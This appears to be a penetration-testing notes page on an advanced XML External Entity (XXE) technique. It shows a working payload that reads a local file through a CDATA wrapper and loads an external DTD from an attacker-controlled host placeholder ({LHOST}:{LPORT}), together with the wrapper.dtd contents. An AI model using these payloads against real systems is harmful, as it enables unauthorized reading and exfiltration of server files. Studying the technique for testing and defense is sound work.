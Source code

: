 ```yaml
---
title: Pwning XML
tags:
  - advanced
  - web-app
  - pentesting
  - xml
  - injection
  - entities
  - entity
  - external
  - cdata
  - xxe
---
```


## Advanced file access with CDATA

We initially discuss XML External Entities (XXE) exploits in
[[xml-external-entities#Retrieving files|XML External Entities, Retrieving Files]], however, the
examples provided don't account for the content we're trying to leak being valid XML, causing the
XML parser to parse the contents of the file we're trying to leak. This likely causes the parser to
prematurely halt the processing of our data.

Using the [CDATA](https://en.wikipedia.org/wiki/CDATA) directive, we can instruct XML to ignore
parsing elements within our data - just give us the raw information from the file referenced. Here's
an example XXE payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file://{FILEPATH}" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://{LHOST}:{LPORT}/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

In the above example, we define the `start` entity to be the start of the `CDATA` XML entity. We
specify which file we want to leak with the `file` entity. Finally, we end the `CDATA` XML entity
with the `end` entity. How do we end up combining these elements?

We host a [Document Type Definition (DTD)](https://www.w3schools.com/xml/xml_dtd.asp) and reference
it as an external entity. This external entity will combine the `start`, `file`, and `end` entities
as one final entity, `wrapper`. We invoke the `dtd` entity, causing the victim host's XML parser to
download the `wrapper.dtd` DTD file from our attacker host. The contents of the `wrapper.dtd`
payload are provided below:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

Once the victim host successfully download's the `wrapper.dtd` DTD file, we invoke the `wrapper`
entity, causing the victim host to retrieve the file specified by the `file` entity, and placing it
in our `CDATA` entity for easy exposure without XML parsing.
